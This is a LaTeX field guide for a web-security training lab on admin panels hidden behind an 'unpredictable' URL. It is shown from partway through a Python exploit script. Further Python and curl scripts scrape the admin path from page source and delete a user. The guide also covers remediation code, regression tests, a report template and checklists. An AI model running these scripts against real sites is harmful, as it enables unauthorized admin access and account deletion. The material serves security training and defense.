        session_cookie: Session cookie value
        username: Username to delete
        
    Returns:
        True if deletion succeeded, False otherwise
    """
    # Construct delete URL
    delete_url = f"{base_url.rstrip('/')}{admin_path}/delete?username={username}"
    print(f"[*] Attempting to delete user '{username}'")
    print(f"[*] Delete URL: {delete_url}")
    
    cookies = {'session': session_cookie}
    
    try:
        response = session.get(
            delete_url,
            cookies=cookies,
            verify=False,
            proxies=PROXIES,
            timeout=15,
            allow_redirects=True
        )
        
        print(f"[*] Response status: {response.status_code}")
        
        # Check for success indicators
        if response.status_code == 200:
            response_lower = response.text.lower()
            
            # User should no longer appear in response
            if username.lower() not in response_lower:
                print(f"[+] SUCCESS: User '{username}' deleted!")
                return True
            
            # Check for success messages
            if 'congratulations' in response_lower or 'solved' in response_lower:
                print(f"[+] SUCCESS: Lab solved!")
                return True
        
        print(f"[-] Deletion may have failed. Status: {response.status_code}")
        return False
        
    except requests.RequestException as e:
        print(f"[-] Error during deletion: {e}")
        return False


def main():
    """Main execution flow."""
    banner()
    
    parser = argparse.ArgumentParser(
        description="Unprotected Admin Functionality - Unpredictable URL Exploit"
    )
    parser.add_argument("url", help="Target base URL")
    parser.add_argument(
        "--user", "-u",
        default="carlos",
        help="Username to delete (default: carlos)"
    )
    parser.add_argument(
        "--no-proxy",
        action="store_true",
        help="Disable Burp proxy routing"
    )
    
    args = parser.parse_args()
    
    # Normalize base URL
    base_url = args.url.rstrip('/')
    if not base_url.startswith(('http://', 'https://')):
        base_url = 'https://' + base_url
    
    print(f"[*] Target: {base_url}")
    print(f"[*] Target user: {args.user}")
    
    # Configure session
    session = requests.Session()
    session.verify = False
    session.headers.update({
        'User-Agent': 'UnpredictableAdminExploit/2.0 (Security Testing)'
    })
    
    if args.no_proxy:
        global PROXIES
        PROXIES = {}
        print("[*] Proxy disabled")
    else:
        print(f"[*] Routing through proxy: {PROXIES['http']}")
    
    # Phase 1: Get session cookie
    print("\n" + "="*60)
    print("PHASE 1: Session Cookie Acquisition")
    print("="*60)
    
    session_cookie = get_session_cookie(session, base_url)
    if not session_cookie:
        print("[-] Failed to obtain session cookie. Exiting.")
        sys.exit(1)
    
    # Phase 2: Extract admin path
    print("\n" + "="*60)
    print("PHASE 2: Admin Path Discovery")
    print("="*60)
    
    admin_path = extract_admin_path(session, base_url)
    if not admin_path:
        print("[-] Failed to discover admin path. Exiting.")
        sys.exit(1)
    
    # Phase 3: Access admin panel
    print("\n" + "="*60)
    print("PHASE 3: Admin Panel Access Validation")
    print("="*60)
    
    success, _ = access_admin_panel(session, base_url, admin_path, session_cookie)
    if not success:
        print("[-] Failed to access admin panel. Exiting.")
        sys.exit(1)
    
    # Phase 4: Delete user
    print("\n" + "="*60)
    print("PHASE 4: Exploitation")
    print("="*60)
    
    success = delete_user(session, base_url, admin_path, session_cookie, args.user)
    
    # Summary
    print("\n" + "="*60)
    print("SUMMARY")
    print("="*60)
    
    if success:
        print(f"""
[+] Vulnerability Confirmed: Unprotected Admin with Unpredictable URL

    Admin Path Discovered: {admin_path}
    Session Required: Yes (but unauthenticated)
    User Deleted: {args.user}
    
[+] The application relies on URL secrecy instead of proper authorization.
        """)
        sys.exit(0)
    else:
        print("[-] Exploitation may have failed. Check manually.")
        sys.exit(1)


if __name__ == "__main__":
    main()
\end{lstlisting}

\subsection{Simplified Single-Purpose Script}

\begin{lstlisting}[language=python,caption={Minimal exploitation script}]
#!/usr/bin/env python3
"""Minimal script for lab exploitation."""

import sys
import re
import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

PROXIES = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

def delete_carlos(base_url: str) -> bool:
    """Exploit unprotected admin with unpredictable URL."""
    
    # Step 1: Get session cookie from main page
    print("[*] Getting session cookie...")
    r = requests.get(base_url, verify=False, proxies=PROXIES, timeout=15)
    session_cookie = r.cookies.get('session')
    
    if not session_cookie:
        print("[-] No session cookie found")
        return False
    print(f"[+] Session: {session_cookie[:20]}...")
    
    # Step 2: Extract admin path from JavaScript
    print("[*] Extracting admin path from source...")
    match = re.search(r"['\"](/admin-[a-zA-Z0-9]+)['\"]", r.text)
    
    if not match:
        print("[-] Admin path not found in source")
        return False
    
    admin_path = match.group(1)
    print(f"[+] Admin path: {admin_path}")
    
    # Step 3: Delete carlos
    print("[*] Deleting carlos...")
    delete_url = f"{base_url}{admin_path}/delete?username=carlos"
    cookies = {'session': session_cookie}
    
    r = requests.get(delete_url, cookies=cookies, verify=False, 
                     proxies=PROXIES, timeout=15, allow_redirects=True)
    
    if r.status_code == 200 and 'carlos' not in r.text.lower():
        print("[+] Carlos deleted successfully!")
        return True
    
    print(f"[-] Deletion failed: {r.status_code}")
    return False


if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <URL>")
        print(f"Example: {sys.argv[0]} https://0aXXXX.web-security-academy.net")
        sys.exit(2)
    
    url = sys.argv[1].rstrip('/')
    success = delete_carlos(url)
    sys.exit(0 if success else 1)
\end{lstlisting}

\subsection{Bash One-Liner Discovery}

\begin{lstlisting}[language=bash,caption={Bash commands for quick discovery}]
# One-liner to extract admin path from page source
curl -s https://target.example.com/ | \
  grep -oP "/admin-[a-zA-Z0-9]+" | \
  head -1

# Full exploitation with curl
BASE="https://target.example.com"

# Get session cookie
SESSION=$(curl -s -c - "$BASE" | grep session | awk '{print $7}')

# Extract admin path
ADMIN_PATH=$(curl -s -b "session=$SESSION" "$BASE" | \
  grep -oP "/admin-[a-zA-Z0-9]+" | head -1)

# Delete carlos
curl -s -b "session=$SESSION" "$BASE$ADMIN_PATH/delete?username=carlos"

echo "Done! Admin path was: $ADMIN_PATH"
\end{lstlisting}

% ============================================================
\section{Real-World Variations}
% ============================================================

\subsection{Variation 1: Dynamic Admin Path Generation}

Some applications generate new admin paths on each page load:

\begin{lstlisting}[language=javascript,caption={Dynamic admin path generation}]
// Admin path changes on each request
var adminToken = generateRandomToken();  // e.g., 'x7k9m2'
var adminPath = '/admin-' + adminToken;

// Path is valid only for current session
if (isAdmin) {
    showAdminLink(adminPath);
}
\end{lstlisting}

\textbf{Testing approach:}
\begin{itemize}
  \item Extract the path from each response
  \item Use the session cookie paired with that specific path
  \item The path may be tied to the session; a new session means a new path
\end{itemize}

\subsection{Variation 2: Authentication Required But Not Authorization}

\begin{lstlisting}[language=http,caption={Requires login but not admin role}]
-- As unauthenticated user --
GET /admin-xyz123 HTTP/1.1
Host: target.example.com

HTTP/1.1 302 Found
Location: /login

-- As authenticated standard user --
GET /admin-xyz123 HTTP/1.1
Host: target.example.com
Cookie: session=authenticatedUserSession

HTTP/1.1 200 OK
<h1>Admin Panel</h1>
<!-- Full admin access! -->
\end{lstlisting}

\textbf{Testing approach:}
\begin{itemize}
  \item Login as a standard user (e.g., wiener:peter)
  \item Discover admin path from authenticated session
  \item Access admin panel with standard user credentials
\end{itemize}

\subsection{Variation 3: API Endpoints Exposed}

\begin{lstlisting}[language=javascript,caption={API endpoints in JavaScript}]
const API_ENDPOINTS = {
    users: '/api/v1/users',
    products: '/api/v1/products',
    // Admin endpoints - still accessible!
    adminUsers: '/api/v1/admin-secret-endpoint/users',
    adminDelete: '/api/v1/admin-secret-endpoint/users/delete'
};
\end{lstlisting}

\textbf{Testing approach:}
\begin{itemize}
  \item Search JavaScript for API endpoint definitions
  \item Test admin API endpoints directly
  \item Check if authentication/authorization differs between UI and API
\end{itemize}

\subsection{Variation 4: Multiple Admin Paths}

\begin{lstlisting}[language=javascript,caption={Multiple admin endpoints}]
// Different admin interfaces
const adminConfig = {
    userAdmin: '/admin-users-7f3c2a',
    contentAdmin: '/admin-content-9x8y7z',
    systemAdmin: '/admin-system-abc123',
    superAdmin: '/super-admin-xyz789'
};
\end{lstlisting}

\textbf{Testing approach:}
\begin{itemize}
  \item Extract all admin paths from source
  \item Test each path independently
  \item Some may be protected while others are not
\end{itemize}

\subsection{Variation 5: WebSocket Admin Endpoints}

\begin{lstlisting}[language=javascript,caption={WebSocket admin functionality}]
// WebSocket connection for admin
const adminSocket = new WebSocket('wss://target.example.com/ws-admin-xyz');

adminSocket.onmessage = function(event) {
    // Handle admin commands
    processAdminCommand(JSON.parse(event.data));
};
\end{lstlisting}

\textbf{Testing approach:}
\begin{itemize}
  \item Look for WebSocket URLs in JavaScript
  \item Use WebSocket testing tools (Burp, wscat)
  \item Test admin commands without proper authorization
\end{itemize}

% ============================================================
\section{Evidence Collection and Reporting}
% ============================================================

\subsection{Minimum Evidence Requirements}

\begin{enumerate}
  \item \textbf{Source Code Disclosure Evidence}
  \begin{itemize}
    \item Screenshot or copy of HTML/JavaScript containing admin path
    \item Highlight the exact line where the path is disclosed
    \item Show that the content is served to unauthenticated users
  \end{itemize}
  
  \item \textbf{Session Cookie Analysis}
  \begin{itemize}
    \item Demonstrate session cookie is issued without authentication
    \item Show that session alone grants admin access (no login required)
  \end{itemize}
  
  \item \textbf{Admin Panel Access Evidence}
  \begin{itemize}
    \item Full HTTP request with session cookie
    \item Full HTTP response showing admin content
    \item Proof of user context (unauthenticated or low-privilege)
  \end{itemize}
  
  \item \textbf{Impact Demonstration}
  \begin{itemize}
    \item Request/response showing admin action execution
    \item Before/after state if applicable
  \end{itemize}
\end{enumerate}

\subsection{Report Template}

\begin{lstlisting}[caption={Vulnerability report template}]
# Vulnerability Report: Unprotected Admin with Unpredictable URL

## Executive Summary
The application exposes administrative functionality at an obscure URL 
that is disclosed in client-side JavaScript. Despite the URL appearing 
"unpredictable," it can be easily discovered by viewing the page source.
The server fails to enforce authorization, allowing any user to access
admin functions.

## Severity Assessment
- CVSS v3.1 Base Score: 9.1 (Critical)
- Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
- Primary CWE: CWE-862 (Missing Authorization)
- Secondary CWE: CWE-656 (Reliance on Security Through Obscurity)

## Technical Details

### URL Disclosure Location
The admin path is disclosed in inline JavaScript on the main page:

```javascript
var isAdmin = false;
if (isAdmin) {
    adminPanelTag.setAttribute('href', '/admin-j7g4f2');  // DISCLOSED
}
```

### Proof of Concept

#### Step 1: Obtain Session Cookie
Request: GET /
Response: Set-Cookie: session=abc123xyz

#### Step 2: Extract Admin Path
View source -> Find '/admin-j7g4f2' in JavaScript

#### Step 3: Access Admin Panel
GET /admin-j7g4f2
Cookie: session=abc123xyz
Response: 200 OK (Admin content returned)

#### Step 4: Execute Admin Action
GET /admin-j7g4f2/delete?username=carlos
Response: User deleted

## Impact Analysis
An attacker can:
1. Discover the admin URL by viewing page source
2. Access the admin panel without authentication
3. Perform any admin action (user deletion, data export, etc.)

## Root Cause
The application relies on URL obscurity instead of server-side
authorization checks. The "unpredictable" URL is rendered meaningless
because it is disclosed in client-side code.

## Remediation Recommendations
1. Implement server-side authorization on all admin endpoints
2. Verify admin role/permission on every admin request
3. Remove admin paths from client-side code for non-admin users
4. Add audit logging for admin actions
5. Implement regression tests for access control

## References
- CWE-862: Missing Authorization
- CWE-656: Reliance on Security Through Obscurity
- OWASP Testing Guide: Authorization Testing
\end{lstlisting}

% ============================================================
\section{Remediation Patterns}
% ============================================================

\subsection{Core Remediation Principles}

\begin{enumerate}
  \item \textbf{Server-side authorization is mandatory}: Every admin endpoint must verify the user has admin privileges
  \item \textbf{URL obscurity provides zero security}: Assume all URLs are known
  \item \textbf{Don't disclose admin paths to non-admins}: Conditionally render admin code
  \item \textbf{Session cookies are not authorization}: A session proves continuity, not identity or privilege
  \item \textbf{Defense in depth}: Multiple layers of protection
\end{enumerate}

\subsection{Implementation Patterns}

\subsubsection{Express.js (Node.js)}

\begin{lstlisting}[language=javascript,caption={Express.js: Proper admin authorization}]
const express = require('express');
const app = express();

// Middleware: Require authentication
function requireAuth(req, res, next) {
    if (!req.session || !req.session.userId) {
        return res.status(401).json({ error: 'Authentication required' });
    }
    next();
}

// Middleware: Require admin role
function requireAdmin(req, res, next) {
    if (!req.session || !req.session.userId) {
        return res.status(401).json({ error: 'Authentication required' });
    }
    
    if (!req.session.isAdmin) {
        console.warn(`Unauthorized admin access attempt: ${req.session.userId}`);
        return res.status(403).json({ error: 'Admin access required' });
    }
    
    next();
}

// Apply to ALL admin routes, regardless of path
app.use('/admin', requireAdmin);
app.use('/admin-*', requireAdmin);  // Catch unpredictable paths
app.use('/management', requireAdmin);
app.use('/api/admin', requireAdmin);

// Admin routes
app.get('/admin-:token', requireAdmin, (req, res) => {
    // Token in URL provides no security; middleware does
    res.render('admin-panel', { users: getAllUsers() });
});

app.get('/admin-:token/delete', requireAdmin, (req, res) => {
    const { username } = req.query;
    deleteUser(username);
    res.redirect(`/admin-${req.params.token}`);
});

// Conditionally include admin paths in page rendering
app.get('/', (req, res) => {
    const pageData = {
        isAdmin: req.session?.isAdmin || false
        // Don't include adminPath for non-admins!
    };
    
    if (pageData.isAdmin) {
        pageData.adminPath = '/admin-' + generateToken();
    }
    
    res.render('home', pageData);
});
\end{lstlisting}

\subsubsection{Django (Python)}

\begin{lstlisting}[language=python,caption={Django: Admin authorization with decorators}]
from django.contrib.auth.decorators import login_required, user_passes_test
from django.http import HttpResponseForbidden, JsonResponse
from django.views.decorators.http import require_http_methods
import logging

logger = logging.getLogger(__name__)

def admin_required(view_func):
    """Decorator requiring admin privileges."""
    @login_required
    def wrapped(request, *args, **kwargs):
        if not request.user.is_staff:
            logger.warning(
                f"Unauthorized admin access attempt by {request.user.username} "
                f"to {request.path}"
            )
            return HttpResponseForbidden("Admin access required")
        return view_func(request, *args, **kwargs)
    return wrapped

# Apply to admin views - the URL pattern doesn't matter
@admin_required
def admin_panel(request, token=None):
    """Admin panel view - token provides no security."""
    users = User.objects.all()
    return render(request, 'admin/panel.html', {'users': users})

@admin_required
@require_http_methods(["POST"])  # Don't use GET for destructive actions!
def delete_user(request, token=None):
    """Delete user - requires admin + POST."""
    username = request.POST.get('username')
    User.objects.filter(username=username).delete()
    logger.info(f"User {username} deleted by {request.user.username}")
    return redirect('admin_panel')

# URL configuration
# urls.py
urlpatterns = [
    # These patterns all require admin_required decorator
    path('admin-<str:token>/', views.admin_panel, name='admin_panel'),
    path('admin-<str:token>/delete/', views.delete_user, name='delete_user'),
]

# Template: Only show admin link to admins
# home.html
# 
#     <a href="">Admin</a>
# 
\end{lstlisting}

\subsubsection{Spring Security (Java)}

\begin{lstlisting}[language=java,caption={Spring Security: Comprehensive admin protection}]
@Configuration
@EnableWebSecurity
@EnableMethodSecurity
public class SecurityConfig {

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        http
            .authorizeHttpRequests(authz -> authz
                // Public pages
                .requestMatchers("/", "/login", "/products/**").permitAll()
                
                // Admin routes - catch any pattern
                .requestMatchers("/admin/**").hasRole("ADMIN")
                .requestMatchers("/admin-*/**").hasRole("ADMIN")  // Unpredictable URLs
                .requestMatchers("/management/**").hasRole("ADMIN")
                
                // Everything else requires authentication
                .anyRequest().authenticated()
            )
            .formLogin(form -> form.loginPage("/login"));
        
        return http.build();
    }
}

@RestController
public class AdminController {

    private static final Logger logger = LoggerFactory.getLogger(AdminController.class);

    // Method-level security as defense in depth
    @GetMapping("/admin-{token}")
    @PreAuthorize("hasRole('ADMIN')")
    public String adminPanel(@PathVariable String token, Model model) {
        // Token is irrelevant - authorization is enforced by annotation
        model.addAttribute("users", userService.getAllUsers());
        return "admin/panel";
    }

    @PostMapping("/admin-{token}/delete")
    @PreAuthorize("hasRole('ADMIN')")
    public ResponseEntity<?> deleteUser(
            @PathVariable String token,
            @RequestParam String username,
            @AuthenticationPrincipal UserDetails admin) {
        
        logger.info("User {} deleted by admin {}", username, admin.getUsername());
        userService.deleteUser(username);
        return ResponseEntity.ok().build();
    }
}
\end{lstlisting}

\subsubsection{Client-Side: Conditional Rendering}

\begin{lstlisting}[language=javascript,caption={Proper client-side conditional rendering}]
// WRONG: Admin path disclosed to everyone
var isAdmin = false;
if (isAdmin) {
    showAdminLink('/admin-xyz123');  // Path visible in source!
}

// CORRECT: Admin path only sent to admins via server
// Server-side (Express example):
app.get('/', (req, res) => {
    res.render('home', {
        // Only include adminPath if user is actually admin
        adminPath: req.user?.isAdmin ? '/admin-' + generateToken() : null
    });
});

// Template (EJS example):
// <% if (adminPath) { %>
//     <a href="<%= adminPath %>">Admin Panel</a>
// <% } %>

// CORRECT: Use API call to get admin path (admins only)
async function initAdminPanel() {
    try {
        const response = await fetch('/api/admin/path', {
            credentials: 'include'
        });
        
        if (response.ok) {
            const data = await response.json();
            showAdminLink(data.adminPath);
        }
        // Non-admins get 403 - no path disclosed
    } catch (error) {
        // Not an admin, do nothing
    }
}
\end{lstlisting}

\subsection{Regression Testing}

\begin{lstlisting}[language=python,caption={pytest: Access control regression tests}]
import pytest
from app import create_app, db
from app.models import User

class TestUnpredictableAdminAccess:
    """Regression tests for unpredictable admin URL access control."""
    
    @pytest.fixture
    def client(self, app):
        return app.test_client()
    
    @pytest.fixture
    def admin_path(self):
        # The actual path used in the application
        return '/admin-7f3c2a9b'
    
    def test_unauthenticated_cannot_access_admin(self, client, admin_path):
        """Unauthenticated users cannot access admin panel."""
        response = client.get(admin_path)
        assert response.status_code in [401, 403, 404]
    
    def test_regular_user_cannot_access_admin(self, client, admin_path, regular_user):
        """Regular users cannot access admin panel even with session."""
        # Login as regular user
        client.post('/login', data={
            'username': 'wiener',
            'password': 'peter'
        })
        
        response = client.get(admin_path)
        assert response.status_code == 403
    
    def test_admin_path_not_disclosed_to_regular_users(self, client, regular_user):
        """Admin paths should not appear in source for non-admins."""
        # Login as regular user
        client.post('/login', data={
            'username': 'wiener',
            'password': 'peter'
        })
        
        response = client.get('/')
        assert b'/admin-' not in response.data
    
    def test_admin_can_access_panel(self, client, admin_path, admin_user):
        """Admin users can access admin panel."""
        # Login as admin
        client.post('/login', data={
            'username': 'admin',
            'password': 'admin_password'
        })
        
        response = client.get(admin_path)
        assert response.status_code == 200
    
    # Test multiple URL patterns
    @pytest.mark.parametrize("path", [
        "/admin-abc123",
        "/admin-xyz789",
        "/admin-random",
        "/admin-7f3c2a9b/delete?username=test"
    ])
    def test_all_admin_patterns_protected(self, client, path):
        """All admin URL patterns should be protected."""
        response = client.get(path)
        assert response.status_code != 200
\end{lstlisting}

% ============================================================
\section{Testing Checklist}
% ============================================================

\subsection{Discovery Checklist}

\begin{itemize}[label=$\square$]
  \item View page source (\kbd{Ctrl+U}) on main page
  \item Search source for: \code{admin}, \code{panel}, \code{manage}, \code{isAdmin}
  \item Check all inline \code{<script>} tags for URL patterns
  \item Download and search external JavaScript files
  \item Look for source maps (\code{.js.map} files)
  \item Check HTML comments for admin references
  \item Inspect Network tab for API endpoints
  \item Search for route/path configuration objects
  \item Check for environment/config variable disclosures
\end{itemize}

\subsection{Session Analysis Checklist}

\begin{itemize}[label=$\square$]
  \item Identify when session cookie is issued
  \item Determine if session requires authentication
  \item Test admin access without session cookie
  \item Test admin access with unauthenticated session
  \item Test admin access with regular user session
  \item Check if admin path changes with session
\end{itemize}

\subsection{Exploitation Checklist}

\begin{itemize}[label=$\square$]
  \item Extract exact admin path from source
  \item Obtain valid session cookie
  \item Access admin panel with session
  \item Verify admin content is returned
  \item Identify available admin actions
  \item Execute test admin action
  \item Document before/after state
\end{itemize}

\subsection{Evidence Collection Checklist}

\begin{itemize}[label=$\square$]
  \item Screenshot of source code showing disclosure
  \item HTTP request/response for session acquisition
  \item HTTP request/response for admin panel access
  \item HTTP request/response for admin action
  \item Proof of user context (unauthenticated/regular user)
  \item Burp project file saved
  \item Timeline and timestamps documented
\end{itemize}

% ============================================================
\section{Quick Reference}
% ============================================================

\subsection{Regex Patterns for Admin Path Extraction}

\begin{longtable}{@{}lp{9cm}@{}}
\toprule
\textbf{Pattern} & \textbf{Purpose} \\
\midrule
\code{/admin-[a-zA-Z0-9]+} & Admin paths with alphanumeric suffix \\
\code{href.*admin.*['"]} & Admin links in href attributes \\
\code{adminPath.*['"]([^'"]+)['"]} & adminPath variable assignments \\
\code{setAttribute.*href.*admin} & Dynamic link creation \\
\code{/admin[^'"\\s]*} & Any path starting with /admin \\
\bottomrule
\caption{Regex patterns for finding admin paths}
\end{longtable}

\subsection{Key Differences from Standard Unprotected Admin}

\begin{longtable}{@{}p{4cm}p{5cm}p{5cm}@{}}
\toprule
\textbf{Aspect} & \textbf{Standard} & \textbf{Unpredictable URL} \\
\midrule
Path & \code{/admin} & \code{/admin-7f3c2a9b} \\
Discovery & robots.txt, wordlists & JavaScript, HTML source \\
Session & Often not required & Usually required \\
Automation & Simple path access & Regex extraction needed \\
Developer intent & Negligence & Deliberate obscurity \\
\bottomrule
\caption{Standard vs. unpredictable URL comparison}
\end{longtable}

% ============================================================
\section{Additional Resources}
% ============================================================

\subsection{Training Labs}

\begin{itemize}
  \item \textbf{PortSwigger Web Security Academy}: Lab ``Unprotected admin functionality with unpredictable URL''
  \item \textbf{OWASP WebGoat}: Access Control Flaws module
  \item \textbf{HackTheBox}: Various web challenges with access control vulnerabilities
\end{itemize}

\subsection{Tools}

\begin{itemize}
  \item \textbf{Burp Suite}: Request interception and analysis
  \item \textbf{Browser DevTools}: Source inspection, Network monitoring
  \item \textbf{BeautifulSoup}: Python HTML/XML parsing
  \item \textbf{JSBeautifier}: Deobfuscate minified JavaScript
  \item \textbf{Source Map Explorer}: Analyze webpack bundles
\end{itemize}

\subsection{References}

\begin{itemize}
  \item OWASP Testing Guide: Testing for Bypassing Authorization Schema
  \item CWE-862: Missing Authorization
  \item CWE-656: Reliance on Security Through Obscurity
  \item OWASP ASVS v4.0: V4 Access Control
\end{itemize}

% ============================================================
\section{Document History}
% ============================================================

\begin{table}[h]
\centering
\begin{tabular}{@{}llp{8cm}@{}}
\toprule
\textbf{Version} & \textbf{Date} & \textbf{Changes} \\
\midrule
1.0 & 2025-01-01 & Initial field guide \\
2.0 & 2026-01-21 & Comprehensive expansion: added JavaScript analysis techniques, regex extraction patterns, session handling details, complete automation scripts, real-world variations, remediation code examples \\
\bottomrule
\end{tabular}
\caption{Document revision history}
\end{table}

\end{document}
